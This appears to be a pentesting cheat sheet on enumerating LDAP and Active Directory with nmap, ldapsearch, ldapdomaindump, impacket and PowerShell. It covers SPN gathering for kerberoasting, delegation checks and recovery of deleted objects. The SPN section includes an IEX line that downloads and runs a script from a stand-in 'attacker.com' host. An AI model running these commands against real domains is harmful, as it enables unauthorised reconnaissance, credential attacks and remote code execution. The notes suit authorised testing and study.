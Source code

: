 # LDAP/389/636 (TCP)

## Questions to ask yourself
  *  Is the LDAP server also the domain controller?
  *  How many machines/users exist in the domain?
      *  Which are high-value targets?

## Things to remember
  *  LDAP [distinguished names](https://ldap.com/ldap-dns-and-rdns/) describe a position in the directory heirarchy
  *  List of some [famous LDAP filters](https://www.ldapexplorer.com/en/manual/109050000-famous-filters.htm) for easy searching

## Useful tools
  *  [`nmap`](https://nmap.org/) for various NSE enum scripts
  *  [`ldapdomaindump`](https://github.com/dirkjanm/ldapdomaindump) for dumping domain objects
  *  [`ldapsearch`](https://linux.die.net/man/1/ldapsearch) for precise LDAP searching
  *  Custom [`Invoke-LDAPSearch.ps1`](https://github.com/SpacemanHenry/hacknotes/blob/main/Post%20Exploitation/Privilege%20Escalation/Windows/Powershell%20Scripts/Invoke-LDAPSearch.ps1) for searching LDAP from `powershell`
  *  [`impacket-GetUserSPNs`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) and [`Get-SPN.ps1`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) for gathering service principal names
  *  [`impacket-findDelegation`](https://github.com/fortra/impacket/blob/master/examples/findDelegation.py) for automatically gathering delegation permissions
  *  [`impacket-rbcd`](https://github.com/fortra/impacket/blob/master/examples/rbcd.py) for parsing RBCD attributes

## Additonal NSE enumeration
  *  `nmap` [LDAP NSE scripts](https://nmap.org/search/?q=ldap) without credentials will not yield much
      *  See [`ldap-search.nse`](https://nmap.org/nsedoc/scripts/ldap-search.html) docs for more examples

```
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap*"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.maxobjects=-1'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.qfilter=users,ldap.attrib=sAMAccountName,ldap.maxobjects=-1'
```

## LDAP domain dump
  *  `ldapdomaindump` for reading all objects from an LDAP server
      *  Create a new directory for this, outputs a lot of files
      *  Likely requires credentials

```
ldapdomaindump 10.0.0.1
ldapdomaindump ldapserver.example.com
ldapdomaindump -u "bob" -p "password" 10.0.0.1
ldapdomaindump -u "bob" -p "password" ldapserver.example.com
```

## LDAP search
  *  [`hacktricks`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap) for more/better examples
  *  `ldapsearch` for finding specific objects from an LDAP server
  *  Custom powershell script `Invoke-LDAPSearch.ps1` for sending LDAP queries
      *  Used to perform LDAP searches from a domain-joined machine
      *  No additional pivot tools needed

```
ldapsearch -x -H ldap://10.0.0.1 -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com' samaccounttype=805306368
ldapsearch -x -H ldap://ldapserver.example.com -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://ldapserver.example.com -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
```

```
PS > Invoke-LDAPSearch -connect "LDAP://10.0.0.1/DC=example,DC=com"
PS > Invoke-LDAPSearch -filter "samaccounttype=805306368"
PS > Invoke-LDAPSearch -username "bob" -password "pass123"
```

## Gathering SPNs
  *  Hunt for target services by querying for [service principal names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names)
  *  Useful preparation for [kerberoasting](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)
  *  `impacket-GetUserSPNs` for gathering service principal names from linux
  *  `Get-SPN.ps1` or `Invoke-LDAPSearch.ps1` can be used to enumerate SPNs without requesting tickets

```
impacket-GetUserSPNs example.com/bob:password -dc-ip 10.0.0.1
```

```
PS > IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Get-SPN.ps1');
PS > Get-SPN -type service -search "*"
```

```
PS > Invoke-LDAPSearch "serviceprincipalname=*"
```

## Delegation permissions
  *  Hunt for user/computer objects configured with [delegation permissions](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Delegation.md)
  *  Enumerating delegation relies on specific object attributes being readable
      *  [`useraccountcontrol`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) attribute to [check what delegations are enabled](https://www.techjutsu.ca/uac-decoder) 
      *  [`msDS-AllowedToDelegateTo`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-allowedtodelegateto) to show SPNs allowed for KCD
      *  [`msDS-AllowedToActOnBehalfOfOtherIdentity`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-allowedtoactonbehalfofotheridentity) used during RBCD
  *  `ldapsearch` and `impacket` scripts for enumerating delegation

```
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' samaccounttype=805306368 samaccountname useraccountcontrol
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' msDS-AllowedToDelegateTo=* samaccountname msDS-AllowedToDelegateTo
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' msDS-AllowedToActOnBehalfOfOtherIdentity=* samaccountname msDS-AllowedToActOnBehalfOfOtherIdentity
```

```
impacket-findDelegation example.com/bob:password -dc-ip 10.0.0.1
impacket-rbcd -delegate-to 'DC$' -dc-ip 10.0.0.1 -action read example.com/bob:password
```

## Deleted AD objects
  *  Enumerate [AD recycling bin](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/active-directory-recycle-bin?tabs=adac) and deleted objects
      *  Disabled by default, find config under `Optional Features`/`Directory Service`
  *  Dump [tombstone objects](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/phantoms-tombstones-infrastructure-master) using [LDAP show deleted extension](https://learn.microsoft.com/en-us/openspecs/sharepoint_protocols/ms-upsldap/b7d17cbd-03bb-4c1f-aad1-bcdf587b5c14)
  *  `ldapsearch` and `ldapmodify` for finding/restoring tombstone objects from linux
  *  [AD powershell module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2025-ps) cmdlets make this easier

```
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=example,DC=local'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -s 'base' -b 'CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=example,DC=local' 'tombstoneLifetime'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' -E 1.2.840.113556.1.4.417 '(isDeleted=TRUE)'
```

```
PS > Get-ADObject -Filter 'isDeleted -eq $TRUE' -IncludeDeletedObjects -Properties *
PS > Get-ADObject -Identity '00000000-0000-0000-0000-000000000000' -IncludeDeletedObjects | Restore-ADObject
```
